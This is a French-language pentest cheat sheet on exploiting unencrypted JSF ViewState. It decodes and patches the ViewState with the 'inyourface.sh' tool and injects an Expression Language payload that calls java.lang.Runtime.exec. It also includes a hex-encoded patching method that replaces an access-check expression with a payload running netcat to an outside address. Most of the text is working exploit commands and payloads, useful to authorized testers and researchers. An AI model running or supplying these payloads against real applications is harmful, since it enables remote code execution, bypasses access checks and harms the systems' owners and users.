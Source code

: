 #JSF Viewstate

For trainings : https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles

Si la viewstate n'est pas chiffrée, et est interprêtée côté client. Il est possible de la décoder pour récupérer des informations. En plus de cela, il est possible de la patcher afin de modifier les valeurs des variables ou bien même réaliser de l'exécution de code.

## Decode

```
$ ./inyourface.sh viewstate.txt > decoded.txt
```

## Patching de la viewstate

```
$ ./inyourface.sh -patch 0x7e0040 userId 0 -outfile /tmp/patched.txt /tmp/viewstate.txt
```

Pour faire de la RCE chercher les : **org.apache.el.ValueExpressionImpl**

Exemple de payload à injecter: 

```
#{request.getClass().getClassLoader().loadClass(‘java.lang.
Runtime’).getDeclaredMethods()[6].invoke(null).exec(‘<cmd>’)
```

```
./inyourface.sh -rawpatch 441 465 /tmp/payload.txt -outfile /tmp/patched.txt /tmp/viewstate.txt
```

## Méthodologie pour rawpatch

```
$ echo -ne '\x4d\x00\x42\x23\x7b\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x52\x4f\x20\x61\x6e\x64\x20\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x41\x52\x7d\x00\x07\x62\x6f\x6f\x6c\x65\x61\x6e' > /tmp/blockdata.bin
```

```
./patch_blockdata.py "#{\!sessionUtilisateurBean.isPRO and \!sessionUtilisateurBean.isPAR}" "#{request.getClass().getClassLoader().loadClass('java.lang.Runtime').getDeclaredMethods()[6].invoke(null).exec('nc 10.10.10.10 8000')}" blockdata.bin blockdata-patched.bin
```

```
$ ./inyourface.sh -rawpatch 4109 4187 /tmp/blockdata-patched.bin -outfile /tmp/viewstate-patched.txt /tmp/viewstate.txt
```

## Liens

https://www.synacktiv.com/ressources/MISC69_pentest_JSF.pdf

Un grand merci à Renaud Dubourguais et Nicolas Collignon pour leur outils et aide de déboggage.